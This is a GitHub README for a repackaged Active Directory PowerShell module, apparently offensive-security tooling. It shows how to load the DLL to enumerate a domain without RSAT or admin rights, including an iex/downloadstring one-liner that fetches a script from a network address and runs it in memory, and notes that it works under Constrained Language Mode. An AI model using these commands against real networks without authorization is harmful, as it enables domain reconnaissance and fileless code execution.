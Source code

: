 ## This module was originally from https://github.com/samratashok/ADModule but all AD files have been replaced from Server 2022.

Within the import ps1 script, the bytes have been replaced with the bytes from this Microsoft.ActiveDirectory.Management.dll.


You can copy this DLL to your machine and use it to enumerate Active Directory without installing RSAT and without having administrative privileges.

```powershell
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
```

![](./images/import_dll.png)

Alternatively, you can use the ps1 script to download and execute in memory
```powershell
iex(new-object net.webclient).downloadstring('http://192.168.137.128/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

![](./images/import_example.png)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
```powershell
PS C:\> Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose

PS C:\> Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1

PS C:\> Get-Command -Module ActiveDirectory
```

This module should work without issue from PowerShell's Constrained Language Mode.
